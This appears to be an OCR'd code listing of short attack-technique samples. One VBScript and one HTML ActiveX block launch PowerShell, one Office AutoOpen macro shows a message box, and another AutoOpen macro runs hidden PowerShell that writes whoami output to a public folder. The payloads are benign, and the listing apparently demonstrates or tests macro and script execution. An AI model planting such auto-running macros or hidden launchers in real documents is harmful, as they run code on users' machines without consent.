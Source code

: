 Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "powershell.exe", 1, false

<script>
    var shell = new ActiveXObject("WScript.Shell");
    shell.Run("powershell.exe");
</script>



Sub AutoOpen()
    MsgBox "Macros are enabled"
End Sub


Sub AutoOpen()
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    shell.Run "powershell -WindowStyle Hidden -Command whoami > C:\Users\Public\whoami.txt"
End Sub

